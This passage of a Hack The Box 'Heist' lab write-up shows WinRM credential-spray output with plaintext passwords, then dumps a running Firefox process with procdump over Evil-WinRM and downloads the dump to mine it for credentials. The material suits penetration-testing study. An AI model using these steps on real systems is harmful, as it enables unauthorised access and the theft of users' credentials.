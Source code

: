 ```bash
WINRM       10.10.10.149    5985   NONE             [-] None\Jason:$uperP@ssword "the specified credentials were rejected by the server"
WINRM       10.10.10.149    5985   NONE             [-] None\Chase:Q4)sJu\Y8qz*A3?d "Access is denied.  (extended fault data: {'transport_message': 'Bad HTTP response returned from server. Code 500', 'http_status_code': 500, 'wsmanfault_code': '5', 'fault_code': 's:Sender', 'fault_subcode': 'w:AccessDenied'})"
```

Logged in as Chase.[br/](br/)
![1f827bc46da7ae8166a5eaa4d0d2e63d.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-heist/a300ea1ca46a4511a24006ea75412340.png)

## Privilege Escalation

While enumerating I found `Firefox` is installed which is odd.[br/](br/)
![img.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-heist/fa28e271fa824f7cbdf258c4929df8cd.png)

Let's check whether its running? Yes `Firefox` is running.[br/](br/)
![e2b5342d10bc1dbd805f4050777352c5.png](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-heist/6162aa5639be416babb93c56257f8771.png)

We can dump these processes using `procdump.exe`. We can download it from [here](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump).

If we run that `procdump.exe` it asks me to accept EULA first.
```
This is the first run of this program. You must accept EULA to continue.
Use -accepteula to accept EULA.
```

So by running `.\procdump64.exe -accepteula` we accepted that. Now its time to dump the process.
```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> .\procdump64.exe -ma 4276

ProcDump v9.0 - Sysinternals process dump utility
Copyright (C) 2009-2017 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[12:18:00] Dump 1 initiated: C:\Users\Chase\Documents\firefox.exe_200425_121800.dmp
[12:18:01] Dump 1 writing: Estimated dump file size is 281 MB.
[12:18:07] Dump 1 complete: 281 MB written in 7.1 seconds
[12:18:08] Dump count reached.

*Evil-WinRM* PS C:\Users\Chase\Documents> 
```


> -ma     Write a 'Full' dump file.
  				Includes All the Image, Mapped and Private memory.

> 4276 	Firefox ID which I got from ps


Download that file to my machine. It takes some time because the file size is 281mb.
```bash
*Evil-WinRM* PS C:\Users\Chase\Documents> ls


    Directory: C:\Users\Chase\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/25/2020  12:18 PM      286846903 firefox.exe_200425_121800.dmp
-a----        4/25/2020  12:09 PM         341672 procdump64.exe


*Evil-WinRM* PS C:\Users\Chase\Documents> download firefox.exe_200425_121800.dmp
```